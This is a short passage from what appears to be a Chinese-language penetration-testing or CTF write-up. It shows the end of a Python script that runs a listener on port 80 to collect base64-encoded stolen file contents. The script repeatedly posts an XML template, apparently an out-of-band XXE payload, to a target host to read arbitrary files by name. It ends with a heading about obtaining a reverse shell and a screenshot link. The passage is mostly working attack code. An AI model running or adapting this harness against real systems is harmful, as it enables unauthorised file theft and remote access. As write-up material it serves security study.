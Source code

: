 ```plain
    data = base64.b64decode(b64data).decode().strip()
    if data != prev_data:
        print(data)
        prev_data = data
    return ""


def web():
    app.run(host="0.0.0.0", port=80)


if __name__ == "__main__":
    threading.Thread(target=web, daemon=True).start()
    time.sleep(1)
    #app.run(debug=True, use_reloader=False, host="0.0.0.0", port=80)
    while True:
        try:
            fn = input("file> ")
            xml = xml_template.format(fn)
            requests.post('http://10.10.10.62:56423', data=xml)
        except KeyboardInterrupt:
            print()
```

## 反弹 shell

执行脚本来反弹 shell

[![](assets/1699929055-f3581562612c8f7a60541e8dd09a6471.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104053-107d2986-81ce-1.png)
